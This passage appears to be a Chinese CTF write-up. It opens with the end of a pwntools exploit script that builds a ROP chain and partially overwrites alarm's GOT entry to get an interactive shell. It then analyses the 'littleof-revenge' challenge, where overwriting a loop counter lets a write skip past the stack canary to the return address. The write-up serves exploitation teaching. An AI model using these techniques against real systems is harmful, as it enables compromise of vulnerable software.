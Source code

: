 ```python
    buff += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss+24) + p64(0) + p64(read_plt) 
    buff += p64(0x4005DA) + p64(0)+p64(1)+p64(alarm_got)+p64(bss)+p64(0)+p64(0)+p64(0x4005C0)
    sn(buff)
    
    sleep(1)
    sn('\x15') # ubuntu 18.04
    #sn('\x19') #ubuntu20.04
    sleep(1)
    #gdb.attach(p)
    sn('a'*0x3b)
    p.interactive()
```
# littleof-revenge  <控制buffer下标实现溢出，及绕过canary>
题目保护开启了NX，canary，ida看下题目,没有system，只有以下一个函数存在溢出，溢出长度为0x58，逻辑：
```c
unsigned __int64 sub_4006A2()
{
  char v1[64]; // [rsp+10h] [rbp-50h] BYREF
  int i; // [rsp+50h] [rbp-10h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Do you know how to do buffer overflow?");
  for ( i = 0; i != 0x41; ++i )
  {
    read(0, &v1[i], 1uLL);
    if ( v1[i] == '\n' )   <----------漏洞点
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}

```
## 分析
这里看似没啥问题，但是需要注意的是，这里read是一个字节一个字节读的，结束循环条件为`i!=0x41`（这个条件也很危险，一旦i变成比0x41大的数，就会出现溢出），常理说当i增加到0x41的时候执行完就会跳出循环，或者字符等于`\n`的时候，但是注意这里是按照`&buf+i`的方式写入的，如果我们再写入的时候能够控制i的大小就可以控制其写入的起始地方，这里当然也可以这跟i这个变量的存储位置有关，经过ida反编译后看不出i的位置，可以看汇编有所体现（也可调试更直观地看到）：
```bash
.text:00000000004006A2                 push    rbp
.text:00000000004006A3                 mov     rbp, rsp
.text:00000000004006A6                 sub     rsp, 60h
.text:00000000004006AA                 mov     rax, fs:28h       <--rax = canary>
.text:00000000004006B3                 mov     [rbp+var_8], rax  <--[rbp-8] = rax = canary>
.text:00000000004006B7                 xor     eax, eax
.text:00000000004006B9                 lea     rax, [rbp+var_50] <------rax=[rbp-0x50] buf首地址>
.text:00000000004006BD                 add     rax, 40h ; '@'    <------rax = buf + 0x40 = i
.text:00000000004006C1                 mov     [rbp+var_58], rax <------[rbp-0x58] = buf+0x40 = i>
.text:00000000004006C5                 lea     rdi, s          ; "Do you know how to do buffer overflow?"
...
...
.text:000000000040070B                 cmp     al, 0Ah
.text:000000000040070D                 jz      short loc_40072B
.text:000000000040070F                 mov     rax, [rbp+var_58] <--rax = [rbp-0x58] = i>
.text:0000000000400713                 mov     eax, [rax]
.text:0000000000400715                 lea     edx, [rax+1]      <-- i+1 等同于地址加一>
.text:0000000000400718                 mov     rax, [rbp+var_58]
.text:000000000040071C                 mov     [rax], edx        <-- i = i + 1>
```
由汇编可以看到，计数的i存在buf+0x40的地方，存在被覆盖的风险，一旦被覆盖，i的之就会变，可以利用这点将i覆盖成大于0x41的数从而实现溢出，而选择写入地址为canary后即可跳过canary，从而实现覆盖返回地址。